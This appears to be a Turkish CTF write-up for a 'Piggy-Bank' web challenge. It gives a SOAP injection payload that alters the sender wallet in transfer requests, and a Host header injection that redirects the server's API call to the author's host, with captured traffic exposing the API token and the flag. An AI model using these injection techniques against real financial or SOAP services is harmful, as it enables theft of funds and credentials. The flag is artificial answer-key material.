


Hack some bank for me.
http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/
Linke gidildigine karsimiza Piggy-Bank adinda bir banka cikiyor.
Uye olundugunda For developers adinda daha aktif olmayan bir karsimiza cikiyor. 
Fakat kaynak kodunda assagidaki ifadeleri gozlemleyebiliyoruz.
<div class="tab tab_5">Especially for pig-developers, we have the coolest api, which they will soon be able to use!</div>
<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->
</div>
Bahsi gecen WSDL sayfasina gidilince assagidaki WSDL formu karsimiza cikti.
<?xml version="1.0" encoding="utf-8"?>
<wsdl:definitions name="Bank"
targetNamespace="urn:Bank"
xmlns:tns="urn:Bank"
xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
xmlns="http://schemas.xmlsoap.org/wsdl/">
<message name="BalanceRequest">
<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
<part name="code" type="xsd:float"/>
<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
<part name="receiver_wallet_num" type="xsd:decimal"/>
<part name="sender_wallet_num" type="xsd:decimal"/>
<part name="amount" type="xsd:float"/>
<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
<part name="code" type="xsd:float"/>
<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
<operation name="requestBalance">
<input message="tns:BalanceRequest"/>
<output message="tns:BalanceResponse"/>
</operation>
<operation name="internalTransfer">
<input message="tns:internalTransferRequest"/>
<output message="tns:internalTransferResponse"/>
</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
<operation name="requestBalance">
<soap:operation soapAction="urn:requestBalanceAction"/>
<input>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</input>
<output>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</output>
</operation>
<operation name="internalTransfer">
<soap:operation soapAction="urn:internalTransferAction"/>
<input>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</input>
<output>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</output>
</operation>
</binding>
<wsdl:service name="BankService">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php" />
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
Buna forma gore iki adet SOAP API endpointine sahip oldugumuzu ogrendik.
Ilki bakiye sorgulama
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:Bank">
<soapenv:Header/>
<soapenv:Body>
<urn:requestBalance soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<wallet_num xsi:type="xsd:decimal">hesapNo</wallet_num>
</urn:requestBalance>
</soapenv:Body>
</soapenv:Envelope>
İkincisi ise bakiye yollama
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:Bank">
<soapenv:Header/>
<soapenv:Body>
<urn:internalTransfer soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<receiver_wallet_num xsi:type="xsd:decimal">aliciHesapNo</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">fonderenHesapNo</sender_wallet_num>
<amount xsi:type="xsd:float">miktar</amount>
<token xsi:type="xsd:string">token</token>
</urn:internalTransfer>
</soapenv:Body>
</soapenv:Envelope>
Ilk kosul(bakiye yollama) icin api token'e ihtiyac duyuyoruz. Buyuk ihtimal sorunun cozumu de bununla alakali olacagindan dolayi bunu kurcalamayabiliriz.
POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: PHPSESSID=xxx
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
receiver=1828&amount=123
Istekte giden parametreler arasinda receiver ve amount olmasi bir once gordugumuz bakiye yollama endpointi ile tutuyordu. Bundan dolayi SOAP injection denenebilir.
Aklimizda olsuturdugumuz hedeflenen injection assagida gorunmektedir:
<receiver_wallet_num xsi:type="xsd:decimal">1828</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1</sender_wallet_num>
<amount xsi:type="xsd:float"><!--</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1000</sender_wallet_num>
<amount xsi:type="xsd:float">-->1000</amount>
<token xsi:type="xsd:string">token</token>
receiver kısmına;
hesapNumaram </receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1</sender_wallet_num>
<amount xsi:type="xsd:float"><!--
amount kısmına ise;
--> 200
Fakat nedense hesabimiza paralar yuklenmedi. Sonra dusununce hedefte yeterince para olmayabilir. Bundan dolayi belli bir aralikta ki herkesin bakiyesini calmaya calistik.

POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: PHPSESSID=xxx
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
receiver=1828&amount=123
Alakali istekte host header injection oldugunu farkettik. Boylece endpointi zehirleyip api istegindeki tokeni calabiliriz.
ngrep -q -d ens160 -W byline port 80
root@cd0:~# ngrep -q -d ens160 -W byline port 80
interface: ens160 (x.x.x.x/255.255.255.224)
filter: (ip or ip6) and ( port 80 )
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [AP]
GET /api/bankservice.wsdl.php HTTP/1.1.
Host: cd0.me.
Connection: Keep-Alive.
Accept-Encoding: gzip.
CF-IPCountry: DE.
X-Forwarded-For: 18.184.147.62.
CF-RAY: 43ecd60df1ef63a3-FRA.
X-Forwarded-Proto: http.
CF-Visitor: {"scheme":"http"}.
CF-Connecting-IP: 18.184.147.62.
.
T my.ip.v4.addr:80 -> 162.158.89.120:10101 [A]
HTTP/1.1 200 OK.
Date: Mon, 23 Jul 2018 08:39:22 GMT.
Server: Apache/2.4.18 (Ubuntu).
Last-Modified: Mon, 23 Jul 2018 07:31:21 GMT.
ETag: "b5b-571a5a1ce14ac".
Accept-Ranges: bytes.
Content-Length: 2907.
Keep-Alive: timeout=5, max=100.
Connection: Keep-Alive.
.
<?xml version="1.0" encoding="utf-8"?><wsdl:definitions name="Bank"
targetNamespace="urn:Bank"
xmlns:tns="urn:Bank"
xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
xmlns="http://schemas.xmlsoap.org/wsdl/">
<message name="BalanceRequest">
<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
<part name="code" type="xsd:float"/>
<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
<part name="receiver_wallet_num" type="xsd:decimal"/>
<part name="sender_wallet_num" type="xsd:decimal"/>
<part name="amount" type="xsd:float"/>
<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
<part name="code" type="xsd:float"/>
<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
<operation name="requestBalance">
<input message="tns:BalanceRequest"/>
<output message="tns:BalanceResponse"/>
</operation>
<operation name="internalTransfer">
<input message="tns:internalTransferRequest"/>
<output message="tns:internalTransferResponse"/>
</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
<operation name="requestBalance">
<soap:operation soapAction="urn:requestBalanceAction"/>
<input>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</input>
<output>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</output>
</operation>
<operation name="internalTransfer">
<soap:operation soapAction="urn:internalTransferAction"/>
<input>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</input>
<output>
<soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</output>
</operation>
</binding>
<wsdl:service name="BankSer
T my.ip.v4.addr:80 -> 162.158.89.120:10101 [AP]
vice">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php" />
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.252:15529 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.252:15529 -> my.ip.v4.addr:80 [AP]
POST /api/bankservice.php HTTP/1.1.
Host: cd0.me.
Connection: Keep-Alive.
Accept-Encoding: gzip.
CF-IPCountry: DE.
X-Forwarded-For: 18.184.147.62.
CF-RAY: 43ecd60eb012268a-FRA.
Content-Length: 736.
X-Forwarded-Proto: http.
CF-Visitor: {"scheme":"http"}.
User-Agent: PHP-SOAP/7.0.30-0ubuntu0.16.04.1.
Content-Type: application/soap+xml; charset=utf-8; action="internalTransferAction".
CF-Connecting-IP: 18.184.147.62.
.
<SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<SOAP-ENV:Body>
<ns1:internalTransfer>
<receiver_wallet_num xsi:type="xsd:decimal">1340</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1349</sender_wallet_num>
<amount xsi:type="xsd:float">1</amount>
<token xsi:type="xsd:token">somesupertokenkey1235555</token>
</ns1:internalTransfer>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
T my.ip.v4.addr:80 -> 162.158.89.252:15529 [AP]
HTTP/1.1 404 Not Found.
Date: Mon, 23 Jul 2018 08:39:22 GMT.
Server: Apache/2.4.18 (Ubuntu).
Content-Length: 289.
Keep-Alive: timeout=5, max=100.
Connection: Keep-Alive.
Content-Type: text/html; charset=iso-8859-1.
.
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /api/bankservice.php was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at cd0.me Port 80</address>
</body></html>
T 162.158.89.252:15529 -> my.ip.v4.addr:80 [A]
......
T 162.158.89.120:10101 -> my.ip.v4.addr:80 [AF]
......
T 162.158.89.252:15529 -> my.ip.v4.addr:80 [AF]
<SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<SOAP-ENV:Body>
<ns1:internalTransfer>
<receiver_wallet_num xsi:type="xsd:decimal">1340</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1349</sender_wallet_num>
<amount xsi:type="xsd:float">1</amount>
<token xsi:type="xsd:token">somesupertokenkey1235555</token>
</ns1:internalTransfer>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
hostu zehirledigimizden mutevellit api istegi bize geri dondu. boyleci token expose edilmis oldu somesupertokenkey1235555
ve flag
ctfzone{dcaa1f2047501ac0f4ae6f448082e63e}